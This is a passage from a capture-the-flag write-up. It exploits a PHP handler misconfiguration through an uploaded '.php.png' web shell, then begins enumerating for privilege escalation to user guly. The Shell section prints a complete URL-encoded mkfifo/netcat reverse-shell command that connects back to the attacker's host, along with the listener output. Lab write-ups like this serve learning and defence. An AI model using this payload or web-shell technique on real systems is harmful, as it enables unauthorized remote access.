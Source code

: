 ![1566726130362](https://0xdfimages.gitlab.io/img/1566726130362.png)

### What? Why?

I was very confused at this point. It turns out this is a configuration error in how the web server is deciding what to execute as code as opposed to return a static file or an image. Details are [here](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler). The standard case is that php will only process files ending in `.php`. The configuration error here means that as long as `.php` is somewhere in the name it will process as php. I’ll look into the configuration a bit more in [Beyond Root](#beyond-root---php-misconfiguration).

### Shell

To get a real shell, I just visited `/uploads/10_10_14_5.php.png?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E&1|nc%2010.10.14.7%20443%20%3E/tmp/f`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:53204.
sh: no job control in this shell
sh-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)

```

## Privesc to guly

### Enumeration

As apache, I can access the only home directory on the host for guly. There are three files:

```

bash-4.2$ ls -l
total 12
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt

```

I can’t access `user.txt`, but the other two are interesting. `crontab.guly` shows a config that would run `php /home/guly/check_attack.php` every 3 minutes:

```

bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php

```
